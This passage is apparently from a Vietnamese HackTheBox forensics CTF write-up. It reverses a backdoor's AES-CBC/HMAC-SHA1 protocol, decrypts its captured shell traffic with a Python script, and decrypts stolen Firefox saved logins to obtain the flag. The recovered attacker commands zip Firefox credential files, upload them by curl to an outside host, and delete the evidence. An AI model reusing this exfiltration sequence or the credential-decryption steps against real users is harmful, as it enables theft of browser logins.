    }
    else
    {
      BYTE2(xmmword_E6E0) = *a2;
      if ( (a3 & 2) != 0 )
        *(_WORD *)((char *)&xmmword_E6E0 + a3) = *(_WORD *)&a2[a3 - 2];
    }
    v4 = a3 + 2;
    if ( (((_BYTE)a3 + 2) & 0xF) != 0 )
      v4 = v4 - (((_BYTE)a3 + 2) & 0xF) + 16;
    v5 = (const __m128i *)&xmmword_E6E0;
    do
    {
      v6 = &xmmword_FB28;
      v7 = v5;
      do
      {
        v7->m128i_i8[0] ^= *(_BYTE *)v6;
        v7 = (const __m128i *)((char *)v7 + 1);
        v6 = (__int128 *)((char *)v6 + 1);
      }
      while ( v6 != (__int128 *)byte_FB38 );
      sub_2267(&unk_F720, v5);
      xmmword_FB28 = (__int128)_mm_load_si128(v5++);
    }
    while ( v5 != (const __m128i *)&dword_E6F0[4 * ((unsigned int)(v4 - 1) >> 4)] );
    *((_BYTE *)&xmmword_E6E0 + v4) = 0;
    *((_BYTE *)&xmmword_E6E0 + v4 + 1) = 0;
    *((_BYTE *)&xmmword_E6E0 + v4 + 2) = 0;
    *((_BYTE *)&xmmword_E6E0 + v4 + 3) = qword_FBB8;
    sub_3D0A(v8);
    sub_60BD(v8, byte_FB38, 0x40u);
    sub_60BD(v8, (char *)&xmmword_E6E0, v4 + 4);
    sub_6237(v8, v9);
    sub_3D0A(v8);
    sub_60BD(v8, byte_FB78, 0x40u);
    sub_60BD(v8, v9, 0x14u);
    sub_6237(v8, (_BYTE *)&xmmword_E6E0 + v4);
    ++qword_FBB8;
    result = sub_14E3(fd, &xmmword_E6E0);
    if ( (_DWORD)result == 1 )
      dword_E6C0 = -6;
    else
      return 0;
  }
```

Phân tích: a3 là plaintext length. Điều kiện a3 - 1 <= 0xFFF khớp với giới hạn 1..0x1000 trong sub_1818. Hai byte đầu buffer được ghi theo big-endian, sau đó compiler tối ưu đoạn copy plaintext vào buffer+2.

Plaintext trước encrypt = uint16_be(length) || plaintext.

#### 3.5.2. Padding/căn chỉnh lên bội số 16 byte

```c
v4 = a3 + 2;
if ((((_BYTE)a3 + 2) & 0xF) != 0)
    v4 = v4 - (((_BYTE)a3 + 2) & 0xF) + 16;
```

Phân tích: v4 = align16(a3 + 2). Vì AES xử lý block 16 byte, dữ liệu gồm 2 byte length và plaintext phải được pad tới bội số của 16.

Ciphertext length = align16(length + 2).

#### 3.5.3. AES-CBC encrypt từng block

```c
do {
    v6 = &xmmword_FB28;
    v7 = v5;
    do {
        v7->m128i_i8[0] ^= *(_BYTE *)v6;
        ...
    } while (v6 != (__int128 *)byte_FB38);
    sub_2267(&unk_F720, v5);
    xmmword_FB28 = (__int128)_mm_load_si128(v5++);
} while (...);
```

Phân tích: Mỗi block plaintext được XOR với IV/current CBC state trước, sau đó gọi sub_2267 để AES encrypt. Sau khi encrypt, IV được cập nhật bằng ciphertext block vừa tạo. Đây là công thức AES-CBC encrypt.

sub_2267 là AES encrypt block; unk_F720 là send crypto context.

#### 3.5.4. Tính HMAC-SHA1 với sequence của chiều gửi

```c
*((_BYTE *)&xmmword_E6E0 + v4) = 0;
*((_BYTE *)&xmmword_E6E0 + v4 + 1) = 0;
*((_BYTE *)&xmmword_E6E0 + v4 + 2) = 0;
*((_BYTE *)&xmmword_E6E0 + v4 + 3) = qword_FBB8;
sub_60BD(v8, byte_FB38, 0x40u);
sub_60BD(v8, (char *)&xmmword_E6E0, v4 + 4);
...
sub_6237(v8, (_BYTE *)&xmmword_E6E0 + v4);
++qword_FBB8;
```

Phân tích: Sequence 4 byte được ghi tạm ngay sau ciphertext để đưa vào HMAC. Sau đó kết quả HMAC-SHA1 20 byte được ghi đè vào offset buffer+v4, nên sequence không được gửi riêng. Sequence counter tăng sau khi tạo record.

MAC gửi đi = HMAC-SHA1(ciphertext || sequence).

#### 3.5.5. Gửi record ra socket bằng `sub_14E3`

```c
result = sub_14E3(fd, &xmmword_E6E0);
```

Phân tích: Tại thời điểm này buffer gồm ciphertext ở đầu và HMAC-SHA1 ngay sau ciphertext. sub_14E3 được gọi để gửi toàn bộ encrypted record ra socket. Cần mở sub_14E3 để xác nhận nó chỉ là send wrapper.

sub_155F là encrypted_send/encrypt_record.

### 3.6. `sub_14E3` - wrapper gửi đủ byte ra socket

```c
__int64 __fastcall sub_14E3(int fd, char *buf, unsigned __int64 a3, int a4)
{
  unsigned __int64 v7; // rbx
  int v8; // eax
  if ( a3 )
  {
    v7 = 0;
    while ( 1 )
    {
      v8 = send(fd, buf, a3 - v7, a4);
      if ( v8 < 0 )
        break;
      v7 += v8;
      buf += v8;
      if ( a3 <= v7 )
      {
        dword_E6C0 = -6;
        return 1;
      }
    }
    dword_E6C0 = -1;
    return 0;
  }
  else
  {
    dword_E6C0 = -6;
    return 1;
  }
}
```

#### 3.6.1. `sub_14E3` gọi `send()` trong vòng lặp

```c
v8 = send(fd, buf, a3 - v7, a4);
if (v8 < 0)
    break;
v7 += v8;
buf += v8;
```

Phân tích: a3 là số byte cần gửi, v7 là tổng số byte đã gửi. Mỗi lần send chỉ gửi phần còn lại a3 - v7. Nếu send lỗi thì trả fail; nếu thành công thì tăng con trỏ buffer và cộng dồn số byte gửi.

sub_14E3 là send_exact/send_all, không trực tiếp mã hóa.

#### 3.6.2. Hàm chỉ trả thành công khi gửi đủ toàn bộ record

**Evidence / code trích dẫn:**

```c
if (a3 <= v7) {
    dword_E6C0 = -6;
    return 1;
}
```

Phân tích: Điều kiện này xác nhận record đã được gửi đủ ra socket. Vì sub_155F đã chuẩn bị ciphertext || HMAC trước khi gọi sub_14E3, hàm này chỉ đảm bảo transport đầy đủ dữ liệu qua TCP.

## 4. Kết luận protocol mã hóa

Từ các hàm đã phân tích theo đúng thứ tự, có thể dựng lại protocol như sau:

```text
Handshake:
    recv_exact(fd, 40)
    salt_1 = handshake[0:20]
    salt_2 = handshake[20:40]

Context mỗi chiều:
    digest   = SHA1(secret || salt)
    AES key  = digest[0:16]
    IV       = salt[0:16]
    HMAC key = digest
    seq      = 0

Encrypted record:
    plaintext_block = uint16_be(length) || plaintext || padding_to_16
    ciphertext      = AES-128-CBC(plaintext_block)
    mac             = HMAC-SHA1(ciphertext || uint32_be(seq))
    record          = ciphertext || mac
```

Với secret mặc định tìm được trong main là S3cr3tP@ss, bước tiếp theo là reassemble TCP conversation đáng nghi, lấy 40 byte handshake làm salt, khởi tạo context đúng chiều, verify HMAC rồi decrypt từng record. Khi decrypt đúng, record auth đầu tiên phải ra plaintext 16 byte khớp constant tại unk_E170, sau đó mới tiếp tục giải toàn bộ shell traffic.

## 5. Xác định TCP conversation đáng nghi

Trong Wireshark, khi mở Statistics → Conversations và xem ở tab TCP, thấy được có 1 conversation giữa 192.168.1.11:57004 và 192.168.1.4:1234 có lượng packet nhiều hơn hẳn các TCP stream còn lại.



Vì vậy có thể nghi ngờ rằng connection giữa 192.168.1.11:57004 và 192.168.1.4:1234 là kênh giao tiếp chính của binary sau khi được thực thi.

Sử dụng filter sau để cô lập traffic giữa hai endpoint này:

```text
(ip.addr == 192.168.1.11 && ip.addr == 192.168.1.4) && (tcp.port == 57004 && tcp.port == 1234)
```

Sau khi lọc, export riêng TCP payload theo hai chiều để decrypt:

- `c2s.bin: 192.168.1.11:57004 -> 192.168.1.4:1234`
- `s2c.bin: 192.168.1.4:1234 -> 192.168.1.11:57004`

## 6. Giải mã traffic TCP

Đã xác định được cơ chế mã hóa của traffic như sau:

```text
digest   = SHA1(secret || salt)
AES key  = digest[0:16]
IV       = salt[0:16]
HMAC key = digest
```

Mỗi record được mã hóa theo format:

```text
AES-CBC(uint16_be(length) || plaintext || padding) || HMAC-SHA1(ciphertext || sequence)
```

Trong đó secret mặc định lấy được từ binary là:

```text
S3cr3tP@ss
```

Từ cơ chế mã hóa này, có thể suy ra cơ chế giải mã ngược lại: lấy salt từ handshake 40 byte đầu stream, tạo lại digest, AES key, IV và HMAC key; sau đó với từng record thì verify HMAC trước, nếu hợp lệ thì dùng AES-CBC để decrypt ciphertext, bỏ 2 byte length ở đầu plaintext và lấy ra dữ liệu thật.

Sử dụng script để decrypt.

```python
from pathlib import Path
from hashlib import sha1
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
SECRET = b"S3cr3tP@ss"
def aes_dec(key, iv, data):
    cipher = Cipher(algorithms.AES(key), modes.CBC(iv))
    dec = cipher.decryptor()
    return dec.update(data) + dec.finalize()
def decrypt_stream(data, salt):
    digest = sha1(SECRET + salt).digest()
    key = digest[:16]
    iv = salt[:16]
    off = 0
    out = b""
    while off + 16 <= len(data):
        first = aes_dec(key, iv, data[off:off + 16])
        length = (first[0] << 8) | first[1]
        cipher_len = length + 2
        if cipher_len % 16:
            cipher_len += 16 - (cipher_len % 16)
        ct = data[off:off + cipher_len]
        pt = aes_dec(key, iv, ct)
        out += pt[2:2 + length]
        iv = ct[-16:]
        off += cipher_len + 20
    return out
c2s = Path("c2s.bin").read_bytes()
s2c = Path("s2c.bin").read_bytes()
salt_c2s = c2s[:20]
salt_s2c = c2s[20:40]
Path("c2s_plain.bin").write_bytes(decrypt_stream(c2s[40:], salt_c2s))
Path("s2c_plain.bin").write_bytes(decrypt_stream(s2c, salt_s2c))
```

Cuối cùng thu được plaintext của hai chiều giao tiếp là c2s_plain.bin và s2c_plain.bin.



## 7. Phân tích plaintext và quá trình exfiltrate Firefox profile

Khi chạy strings với c2s_plain.bin, thấy được các command mà attacker gửi vào shell:

```bash
exec bash --login
whoami
groups
ls ~/.mozilla/firefox
cd ~/.mozilla/firefox/6z9z8d96.default-release
zip -9 -P nL98udHrzk5vhrLWns3hIDi b12gb.zip cert9.db key4.db times.json logins.json
curl -F 'data=@/home/cpie/.mozilla/firefox/6z9z8d96.default-release/b12gb.zip' http://192.168.1.11:8000
rm b12gb.zip
exit
```

Khi chạy strings với s2c_plain.bin, thấy được output trả về từ máy nạn nhân. Kết quả cho biết user hiện tại là cpie, thuộc group cpie sudo. Attacker sau đó liệt kê thư mục Firefox, tìm thấy profile 6z9z8d96.default-release, rồi chuyển vào profile này.

Các file bị nén gồm:

- `cert9.db`
- `key4.db`
- `times.json`
- `logins.json`

Đây là các file quan trọng của Firefox profile. Trong đó logins.json chứa thông tin đăng nhập đã lưu, còn key4.db và cert9.db liên quan tới khóa/cơ sở dữ liệu dùng để giải mã credential.

Command zip cho thấy attacker tạo file:

`b12gb.zip`

với password:

`nL98udHrzk5vhrLWns3hIDi`

Sau đó attacker dùng curl upload file này về server:

`http://192.168.1.11:8000`

Cuối cùng file b12gb.zip bị xóa khỏi máy nạn nhân bằng lệnh rm b12gb.zip.

Từ plaintext sau decrypt có thể kết luận đây là một phiên reverse shell đã mã hóa. Attacker sử dụng shell để truy cập Firefox profile của user cpie, nén các file credential quan trọng thành b12gb.zip, đặt password cho file zip, exfiltrate file qua HTTP POST tới 192.168.1.11:8000, rồi xóa artifact tạm trên máy nạn nhân.

Quay lại với file PCAP, giờ đây biết được request POST này là request upload file b12gb.zip do attacker thực hiện bằng lệnh curl trong phiên shell đã giải mã được.

```bash
curl -F 'data=@/home/cpie/.mozilla/firefox/6z9z8d96.default-release/b12gb.zip' http://192.168.1.11:8000
```

Khi filter http trong Wireshark, thấy có request:

```text
192.168.1.4  ->  192.168.1.11
POST / HTTP/1.1
Dst port: 8000
```

khớp với command curl trong plaintext: máy 192.168.1.4 upload file b12gb.zip về server 192.168.1.11:8000.



Vì vậy export b12gb.zip rồi extract.

```bash
unzip -P nL98udHrzk5vhrLWns3hIDi b12gb.zip
```

Thu được 4 file:

- `times.json`
- `logins.json`
- `cert9.db`
- `key4.db`

Trong file `logins.json`, password và username đều bị encrypt.





## 8. Giải mã saved login của Firefox

(đọc kỹ hơn ở đây LINK)

Khi tra cứu cách Firefox lưu mật khẩu, thấy được Firefox lưu saved login chủ yếu trong hai file:

- `logins.json` -> chứa username/password đã mã hóa
- `key4.db` -> chứa key dùng để bảo vệ các login đó

Nếu Firefox profile không đặt Primary Password, thì chỉ cần có đủ logins.json và key4.db là có thể giải mã các saved password. Trong case này attacker đã exfiltrate đúng các file cần thiết gồm logins.json, key4.db, cert9.db, nên hướng tiếp theo là dùng các file Firefox profile này để decrypt saved login.

Cụ thể hơn, ở đây khả năng cao profile sử dụng cơ chế mã hóa local của Firefox/NSS. Với các profile cũ, Firefox có thể dùng 3DES-CBC để bảo vệ password.

Sử dụng tool trong repo (có thể tải ở đây).





Do `firefox_decrypt.py` yêu cầu truyền vào thư mục chứa `profiles.ini`, nên cần tạo lại cấu trúc Firefox profile để tool nhận diện được profile.


```bash
cat > profiles.ini << 'EOF'
[Profile0]
Name=default-release
IsRelative=1
Path=6z9z8d96.default-release
Default=1
EOF
```

Cuối cùng chạy tool:

```bash
python3 firefox_decrypt.py .
```

## 9. Flag

Cuối cùng thu được flag là:

```text
HTB{r0ses_4r3_r3d_v10l3ts_4r3_blu3_n0w_I_must_d3l3t3_th1s_b4ckd00r_4nd_r3s3t_my_p4ssw0rds_t00}
```


